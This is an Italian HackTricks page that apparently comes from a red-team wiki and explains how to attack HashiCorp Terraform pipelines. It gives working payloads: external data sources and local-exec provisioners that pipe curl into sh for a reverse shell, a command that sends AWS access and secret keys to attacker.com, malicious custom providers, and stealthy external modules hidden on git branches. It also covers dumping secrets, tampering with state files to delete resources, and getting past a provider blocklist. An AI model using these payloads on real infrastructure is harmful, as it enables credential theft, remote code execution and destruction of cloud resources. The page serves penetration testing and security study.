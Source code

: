 # Sicurezza di Terraform

<details>

{% hint style="success" %}
Impara e pratica l'Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di GitHub.

</details>
{% endhint %}

## Informazioni di Base

[Dalla documentazione:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform è uno strumento di **infrastruttura come codice** che ti permette di definire risorse **cloud e on-prem** in file di configurazione leggibili dall'uomo che puoi versionare, riutilizzare e condividere. Puoi poi utilizzare un flusso di lavoro coerente per provvedere e gestire tutta la tua infrastruttura durante il suo ciclo di vita. Terraform può gestire componenti di basso livello come calcolo, archiviazione e risorse di rete, così come componenti di alto livello come voci DNS e funzionalità SaaS.

### Come funziona Terraform?

Terraform crea e gestisce risorse su piattaforme cloud e altri servizi attraverso le loro interfacce di programmazione delle applicazioni (API). I provider consentono a Terraform di lavorare con praticamente qualsiasi piattaforma o servizio con un'API accessibile.

![](<../.gitbook/assets/image (177).png>)

HashiCorp e la comunità di Terraform hanno già scritto **più di 1700 provider** per gestire migliaia di diversi tipi di risorse e servizi, e questo numero continua a crescere. Puoi trovare tutti i provider disponibili pubblicamente sul [Registro di Terraform](https://registry.terraform.io/), inclusi Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog e molti altri.

Il flusso di lavoro principale di Terraform consiste in tre fasi:

* **Scrittura:** Definisci risorse, che possono essere su più provider cloud e servizi. Ad esempio, potresti creare una configurazione per distribuire un'applicazione su macchine virtuali in una rete Virtual Private Cloud (VPC) con gruppi di sicurezza e un bilanciatore di carico.
* **Pianificazione:** Terraform crea un piano di esecuzione descrivendo l'infrastruttura che creerà, aggiornerà o distruggerà in base all'infrastruttura esistente e alla tua configurazione.
* **Applicazione:** Con l'approvazione, Terraform esegue le operazioni proposte nell'ordine corretto, rispettando le dipendenze delle risorse. Ad esempio, se aggiorni le proprietà di una VPC e cambi il numero di macchine virtuali in quella VPC, Terraform ricreerà la VPC prima di ridimensionare le macchine virtuali.

![](<../.gitbook/assets/image (215).png>)

## Laboratorio di Terraform

Basta installare terraform sul tuo computer.

Qui hai una [guida](https://learn.hashicorp.com/tutorials/terraform/install-cli) e qui hai il [modo migliore per scaricare terraform](https://www.terraform.io/downloads).

## RCE in Terraform

Terraform **non ha una piattaforma che espone una pagina web o un servizio di rete** che possiamo enumerare, quindi, l'unico modo per compromettere terraform è **essere in grado di aggiungere/modificare file di configurazione di terraform**.

Tuttavia, terraform è un **componente molto sensibile** da compromettere perché avrà **accesso privilegiato** a diverse posizioni per poter funzionare correttamente.

Il modo principale per un attaccante di poter compromettere il sistema in cui viene eseguito terraform è **compromettere il repository che memorizza le configurazioni di terraform**, perché a un certo punto verranno **interpretate**.

Attualmente, ci sono soluzioni là fuori che **eseguono automaticamente terraform plan/apply dopo la creazione di una PR**, come **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Se sei in grado di compromettere un file terraform ci sono diversi modi in cui puoi eseguire RCE quando qualcuno esegue `terraform plan` o `terraform apply`.

### Terraform plan

Terraform plan è il **comando più utilizzato** in terraform e sviluppatori/soluzioni che utilizzano terraform lo chiamano continuamente, quindi il **modo più semplice per ottenere RCE** è assicurarsi di iniettare un file di configurazione terraform che eseguirà comandi arbitrari in un `terraform plan`.

#### Utilizzando un provider esterno

Terraform offre il [provider `external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs) che fornisce un modo per interfacciarsi tra Terraform e programmi esterni. Puoi utilizzare il data source `external` per eseguire codice arbitrario durante una `plan`.

Iniettare in un file di configurazione terraform qualcosa di simile a quanto segue eseguirà una shell reversa quando si esegue `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Utilizzo di un provider personalizzato

Un attaccante potrebbe inviare un [provider personalizzato](https://learn.hashicorp.com/tutorials/terraform/provider-setup) al [Terraform Registry](https://registry.terraform.io/) e quindi aggiungerlo al codice Terraform in un branch di sviluppo ([esempio da qui](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Il provider viene scaricato nell'`init` e eseguirà il codice dannoso quando viene eseguito `plan`

È possibile trovare un esempio in [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Utilizzo di un riferimento esterno

Entrambe le opzioni menzionate sono utili ma non molto stealthy (la seconda è più stealthy ma più complessa della prima). È possibile eseguire questo attacco in modo ancora più stealthy, seguendo questi suggerimenti:

* Invece di aggiungere il rev shell direttamente nel file terraform, è possibile **caricare una risorsa esterna** che contiene il rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Puoi trovare il codice rev shell in [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Nella risorsa esterna, utilizza la funzionalità **ref** per nascondere il **codice rev shell di terraform in un branch** all'interno del repository, qualcosa del genere: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Applicazione di Terraform

Terraform apply verrà eseguito per applicare tutte le modifiche, puoi anche abusarne per ottenere RCE iniettando **un file Terraform maligno con** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Devi solo assicurarti che un payload come quelli seguenti finisca nel file `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Segui i **suggerimenti della tecnica precedente** per eseguire questo attacco in modo **più stealth utilizzando riferimenti esterni**.

## Dump delle Password

È possibile avere **valori segreti utilizzati da terraform dumpati** eseguendo `terraform apply` aggiungendo al file terraform qualcosa del genere:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Abuso dei file di stato di Terraform

Nel caso in cui si abbia accesso in scrittura ai file di stato di Terraform ma non si possa modificare il codice di Terraform, [**questa ricerca**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) offre alcune opzioni interessanti per sfruttare il file:

### Eliminazione delle risorse <a href="#deleting-resources" id="deleting-resources"></a>

Ci sono 2 modi per eliminare le risorse:

1. **Inserire una risorsa con un nome casuale nel file di stato che punta alla vera risorsa da eliminare**

Poiché Terraform vedrà che la risorsa non dovrebbe esistere, la distruggerà (seguendo l'ID della risorsa reale indicata). Esempio dalla pagina precedente:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Modificare la risorsa da eliminare in modo che non sia possibile aggiornarla (quindi verrà eliminata e ricreata)**

Per un'istanza EC2, modificare il tipo di istanza è sufficiente per fare in modo che terraform elimini e ricrei l'istanza.

### RCE

È anche possibile [creare un provider personalizzato](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) e sostituire uno dei provider nel file di stato di terraform con quello dannoso o aggiungere una risorsa vuota con il provider dannoso. Esempio dalla ricerca originale:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Sostituire il provider dalla lista nera

Nel caso in cui ti trovi in una situazione in cui `hashicorp/external` è stato messo nella lista nera, puoi reimplementare il provider `external` facendo quanto segue. Nota: Utilizziamo un fork del provider esterno pubblicato da https://registry.terraform.io/providers/nazarewk/external/latest. Puoi pubblicare anche il tuo fork o la tua reimplementazione.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Quindi puoi utilizzare `external` come al solito.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Strumenti di Audit

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utilizza l'analisi statica del tuo codice terraform per individuare potenziali errate configurazioni.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan è un analizzatore statico di codice per l'Infrastruttura come Codice.

## Riferimenti

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}
